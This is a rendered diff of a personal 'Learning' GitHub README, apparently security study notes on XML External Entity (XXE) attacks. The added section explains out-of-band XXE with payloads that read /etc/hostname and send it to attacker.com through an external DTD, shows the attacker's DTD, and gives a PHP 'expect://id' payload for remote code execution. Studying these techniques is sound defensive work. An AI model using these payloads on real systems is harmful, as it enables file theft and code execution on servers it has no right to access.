

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -522,12 +538,75 @@ OUT OF BAND XXE
 		<!ENTITY % bravo "<!ENTITY &#X25; delta SYSTEM 'http://test.com/xxe?%charlie;'>">
 ```
 
+
 ![image](https://github.com/user-attachments/assets/fac143af-70e2-465f-ad51-9b7ca5abdbb0)
 
 
-SSRF
+####The basic Idea looks as follows:
+
+```python    <!DOCTYPE Message [
+    <!ENTITY file SYSTEM "/etc/hostname">
+    <!ENTITY send SYSTEM "http://attacker.com/?read=&file;">
+    ]>
+    <Message>&send;</Message>
+```
+
+* The code above does not work directly.
+* This is due to the fact, that External Entities must not be included in other External Entities. This means, that most parsers will abort the DTD processing on finding the file Entity within the send Entity declaration.
+
+Nevertheless, another DTD feature called Parameter Entities exists that allows to bypass this restriction.
+```python
+    <!DOCTYPE Message [
+      <!ENTITY % file SYSTEM 'file:///etc/hostname'>
+      <!ENTITY % dtd SYSTEM 'http://attacker.com/mydtd'>
+    %dtd;]>
+    <Message>&send;</Message>
+```
+* The above content is then Base64 plus URL-encoded and sent to the SAML-Endpoint URL of the Web Application. Please note, that the Entity send within the <Message> Element is not directly defined in the DTD. It will be defined in the DTD that is loaded from 'http://attacker.com/mydtd' later on.
+
+* The Parameter Entities look similar to common Entities but start with a percentage character (%). They can be seen as a Meta Language for DTD (comparable to #DEFINE instructions in C/C++).
+
+* The Web Application processes the DTD as follows:
+
+The parser processes the first Parameter Entity % file, thus reading the content of the /etc/hostname system resource.
+It then processes the second Parameter Entity % dtd.
+This one enforces the parser to load an External DTD that is provided by the attacker's HTTP server.
+
+Server responds with:
+```python
+    <?xml version="1.0" encoding="UTF-8"?>
+    <!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/send/%file;'>">
+    %all;
+```
+* This file is immediately parsed and processed.It defines a Parameter Entity % all that declares an Entity send.
+* The send Entity is an External Entity pointing again to the attacker's server. The URL Request contains the content of the file Parameter Entity.
+* The last line contains only "%all;". This means, that at this place, the content of the %all Entity will be placed. This is the declaration of the send Entity.
+* The last line of the attacker's request contains "%dtd;" - this means, that at this place, the content of the the File
+'http://attacker.com/mydtd' will be placed.
+* This is (again) the declaration of the send Entity.
+Once the Web Application processes the line "<Response>&send;</Response>",  the GET Request 'http://attacker.com/send/%file;' is executed and the attacker receives the content of the
+    '/etc/hostname' file.
+
+
+
+
+### SSRF
 
 ![image](https://github.com/user-attachments/assets/4d87f9d3-0ce3-4710-9116-99523e49c72c)
 
 
-PHP RCE
+### PHP Remote Code Execution
+
+* If fortune is on our side, and the PHP “expect” module is loaded, we can get RCE.
+```python
+  <?xml version="1.0" encoding="ISO-8859-1"?>
+<!DOCTYPE foo [ <!ELEMENT foo ANY >
+<!ENTITY xxe SYSTEM "expect://id" >]>
+<creds>
+    <user>&xxe;</user>
+    <pass>mypass</pass>
+</creds>
+```
+
+The response from the server will be something like:
+
````
Also changed, not shown: other parts of README.md (+49 -2 lines).
